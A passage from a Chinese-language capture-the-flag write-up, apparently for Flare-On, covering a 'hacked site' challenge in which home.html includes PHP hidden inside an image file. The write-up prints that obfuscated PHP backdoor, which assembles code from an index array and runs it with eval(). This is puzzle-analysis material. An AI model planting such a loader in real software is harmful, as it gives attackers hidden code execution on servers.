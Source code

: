 ```
        {
            btnDecode_Click();
        }
    }
}

```

* * *

第二题
---

提示说站点被黑了, 在**home.html**源代码中看到这个:

```
<?php include "img/flare-on.png" ?>

```

图片中的PHP代码:

```
    <?php $terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);$do_me="";for($i=0;$i<count($order);$i++){$do_me=$do_me.$terms[$order[$i]];}eval($do_me); ?>

```
